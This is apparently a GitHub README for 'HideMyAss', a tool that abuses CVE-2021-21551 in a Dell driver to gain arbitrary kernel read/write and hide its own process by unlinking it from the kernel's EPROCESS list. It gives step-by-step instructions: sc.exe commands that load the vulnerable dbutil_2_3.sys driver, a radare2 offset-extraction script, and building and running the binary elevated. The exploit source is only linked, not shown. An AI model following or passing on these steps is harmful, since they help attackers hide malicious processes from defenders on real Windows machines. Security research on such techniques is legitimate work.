

# HideMyAss

basically rewrite from [SpikySabra/Kernel-Cactus](https://github.com/SpikySabra/Kernel-Cactus) to abuse CVE-2021-21551 (Vulnerable DELL Driver) to arbitrary read/write in the kernel, then [unlink the current process](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/manipulating-activeprocesslinks-to-unlink-processes-in-userland) from `nt!_EPROCESS` to hide itself.

## Step 1.
Use an elevated UAC console to load DELL's driver:
```shell
sc.exe create dbutil_2_3 binpath= C:\path\to\dbutil_2_3.sys type= filesys
sc.exe start dbutil_2_3
```

## Step 2.
Use an elevated UAC console to use Radare2 debugger to extract `_EPROCESS` offsets of current Ntoskrnl. It's a necessary step, because the offsets always change up to the Windows Build version.
```shell
set PATH=%PATH%; C:\radare2-5.7.4-w64\bin
python offsetExtract.py -i C:\Windows\System32\ntoskrnl.exe
```
After executing the python script, it will drop a CVS file (NtoskrnlCSV.csv) containing current Ntoskrnl offsets. Open it with Notepad, copy those offsets, and use them to replace the number at line 111 of HideMyAss.cpp
https://github.com/aaaddress1/PR0CESS/blob/d0816608d731deadc25de3a8c3a8decce62acc78/HideMyAss/src/HideMyAss/HideMyAss.cpp#L111

## Step 3.
Build the project and run the binary with elevated UAC privilege. 
Enjoy :)


